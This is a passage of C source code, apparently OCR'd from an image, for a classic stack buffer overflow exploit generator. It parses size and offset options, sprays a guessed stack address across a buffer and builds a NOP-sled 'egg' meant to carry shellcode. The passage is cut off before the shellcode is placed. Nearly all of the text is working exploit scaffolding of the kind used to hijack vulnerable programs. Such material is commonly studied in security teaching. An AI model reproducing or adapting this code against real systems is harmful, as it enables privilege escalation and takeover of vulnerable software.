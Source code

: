 void usage(void);

void main(int argc, char *argv[]) {
  char *ptr, *bof, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

  while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
    switch (c) {
      case 'a':
        align = atoi(optarg);
        break;
      case 'b':
        bsize = atoi(optarg);
        break;
      case 'e':
        eggsize = atoi(optarg);
        break;
      case 'o':
        offset = atoi(optarg);
        break;
      case '?':
        usage();
        exit(0);
    }

  if (strlen(shellcode) > eggsize) {
    printf("Shellcode is larger the the egg.\n");
    exit(0);
  }

  if (!(bof = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
    bsize, eggsize, align);
  printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

  addr_ptr = (long *) bof;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
      m = (n + align) % NOP_SIZE;
      *(ptr++) = nop[m];
    }
